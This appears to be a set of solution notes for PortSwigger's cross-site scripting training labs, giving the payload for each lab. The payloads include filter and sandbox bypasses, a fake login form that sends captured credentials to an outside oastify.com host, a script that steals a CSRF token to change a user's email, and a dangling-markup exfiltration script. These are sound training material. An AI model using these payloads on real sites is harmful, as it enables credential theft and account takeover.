

Lab: [Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

Brute force for allowed tags: `<body>`, custom tags

https://0ada00ee03da84e1802b5361005e0033.web-security-academy.net/?search=<FUZZ

Brute force for allowed attributes:

https://0ada00ee03da84e1802b5361005e0033.web-security-academy.net/?search=<body+FUZZ=1>



Final payload: <iframe src='https://0ada00ee03da84e1802b5361005e0033.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E' onload=this.style.width='100px'>

Lab: [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

Payload: `<script>
window.location = "https://0af2003c03dc7802917267e900910024.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E#a";
</script>`

Lab: [Reflected XSS with event handlers and href attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

```html
<svg>
    <a>
        <animate attributeName=href values=javascript:alert(1) />
        <text x='20' y='20'>Click</text>
    </a>
</svg>
```

Lab: [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

Payload:

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

Lab: [Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

Utilize attribute instead of tag.

Payload:

```html
" autofocus onfocus=alert(1) x="
```

Lab: [Stored XSS into anchor href attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

Payload:

```html
<a id="author" href="javascript:alert(1)">a</a>
```

Lab: [Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)

Payload:

```html
https://0aef007a030430af804a0de100830086.web-security-academy.net/?a=a%27accesskey=%27X%27%09onclick=%27alert(1)%27

--->
'accesskey='X'%09onclick='alert(1)'
```

Lab [Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

Payload: Use `</script>` to close the script tag then inject the payload.

Lab: [Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

payload

```javascript
x=x=>{throw/**/onerror=alert,1337},toString=x,window+''
```

Lab: [Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

Bypass the ' filter using html encoded single quote: `&apos;`

```html
&apos);alert(1);//
```

Lab: [Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)

payload

```javascript
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)

---> x=alert(1)
```

Lab: [Reflected XSS with AngularJS sandbox escape and CSP](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)


payload

```javascript

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'>
```

Lab: [Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ceufwx619vo5bqqjg1yrnekbx23trjf8.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Lab: [Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

```html
<script>
var token = fetch('/my-account', {
    method: 'GET'
    }).then(function(response) {
        return response.text();
    }).then(function(text) {
        return text.match(/csrf" value="([^"]+)"/)[1];
    }).then(function(token) {
        var email = 'tesst@gmail.com';

        fetch('/my-account/change-email', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: 'csrf=' + token + '&email=' + email
            });
    });

</script>
```

Lab: [Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

```html
<script>
if (window.name) {
    new Image().src = 'https://1ik40maqdksuffu8kq2gr3o01r7ivdj2.oastify.com/?'  + encodeURIComponent(window.name);
} else {
location = `https://0a3900410391fab1817d48820079000c.web-security-academy.net/my-account?email="><a href= 'https://exploit-0ad2009c0382fa5881da470b01f4003d.exploit-server.net/exploit'>Click me<a><base target='`
}

</script>
```